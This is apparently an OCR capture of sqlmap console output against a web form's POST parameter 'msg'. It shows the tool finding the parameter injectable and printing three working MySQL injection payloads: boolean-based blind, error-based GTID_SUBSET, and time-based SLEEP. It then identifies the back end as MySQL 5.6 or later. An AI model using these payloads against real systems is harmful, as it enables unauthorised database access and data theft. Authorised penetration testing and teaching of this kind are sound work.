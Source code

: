     [09:16:58] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
    [09:16:58] [INFO] POST parameter 'msg' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
    [09:16:58] [INFO] testing 'MySQL inline queries'
    [09:16:58] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
    [09:16:58] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
    [09:16:59] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
    [09:16:59] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
    [09:16:59] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
    [09:17:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
    [09:17:00] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [09:17:11] [INFO] POST parameter 'msg' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
    [09:17:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [09:17:11] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
    [09:17:11] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [09:17:11] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [09:17:13] [INFO] target URL appears to have 1 column in query
    do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
    [09:17:39] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
    [09:17:45] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
    [09:17:50] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
    [09:17:57] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
    [09:18:05] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
    [09:18:11] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
    [09:18:16] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
    [09:18:22] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
    [09:18:27] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
    [09:18:33] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
    POST parameter 'msg' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 371 HTTP(s) requests:
    ---
    Parameter: msg (POST)
        Type: boolean-based blind
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: msg=iWAT' RLIKE (SELECT (CASE WHEN (5588=5588) THEN 0x69574154 ELSE 0x28 END))-- nVFb

        Type: error-based
        Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
        Payload: msg=iWAT' AND GTID_SUBSET(CONCAT(0x7170717171,(SELECT (ELT(4598=4598,1))),0x717a627671),4598)-- GDBH

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: msg=iWAT' AND (SELECT 3128 FROM (SELECT(SLEEP(5)))SSGL)-- UPpI
    ---
    do you want to exploit this SQL injection? [Y/n] 
    [09:18:48] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [09:18:50] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-01202021_0916am.csv'                                                                                                                                         
